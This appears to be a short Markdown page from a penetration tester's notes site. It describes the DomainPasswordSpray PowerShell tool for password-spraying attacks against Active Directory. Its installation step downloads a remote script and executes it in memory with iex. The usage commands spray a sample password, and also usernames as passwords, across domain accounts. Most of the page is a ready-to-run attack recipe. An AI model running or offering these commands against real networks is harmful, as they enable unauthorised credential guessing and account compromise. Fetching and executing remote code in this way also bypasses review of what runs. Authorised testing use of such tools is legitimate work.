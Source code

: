 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Invoke-Domainpasswordspray

Powershell script to perform password spray attack in Active Directory.

{{%attachments fa_icon_class="far fa-file" pattern=".*(ps1)"/%}}

## Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crypt0rr/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

## Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

It can also be interesting to use the `-UsernameAsPassword` flag.

```plain
Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile c:\temp\spray-results.txt
```

## URL List

- [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
